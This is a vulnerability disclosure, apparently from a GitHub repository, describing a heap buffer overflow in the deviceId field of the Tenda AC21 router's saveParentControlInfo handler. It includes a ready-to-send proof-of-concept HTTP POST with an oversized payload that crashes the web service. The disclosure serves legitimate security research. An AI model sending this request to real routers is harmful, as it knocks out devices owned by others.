




**Affected Product**: Tenda AC21 Router

**Affected Firmware Versions**:  V16.03.08.16

**Vulnerability Type**: Buffer Overflow Vulnerability

------
### **Vulnerability Description**

In the latest firmware version V16.03.08.16 of the Tenda AC21 router, the `deviceId` parameter of `/goform/saveParentControlInfo` in the `/bin/httpd` binary contains a buffer overflow vulnerability that can lead to denial-of-service.


---
### **Vulnerability Details**

In the `httpd` binary, the function corresponding to `/goform/saveParentControlInfo` is `saveParentControlInfo`.

In the `saveParentControlInfo` function, `webGetVar` is used to retrieve the `deviceId` parameter from `a1` and assign it to `Var`. The code then enters a branch where `s` is a heap buffer allocated with `malloc(0x254)` (0x254 bytes). A subsequent `strcpy` that copies `Var` into `s` without any bounds checking can therefore lead to a heap-based buffer overflow.



---
### **PoC**
```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.254.139
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1093
Origin: http://192.168.254.139
Connection: close
Priority: u=0

deviceId=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&deviceName=aaa&enable=1&time=19%3A00-21%3A00&url_enable=1&urls=baidu.com&day=1%2C1%2C1%2C1%2C1%2C1%2C1&limit_type=1
```

After the request was sent, a segmentation fault occurred in the service:


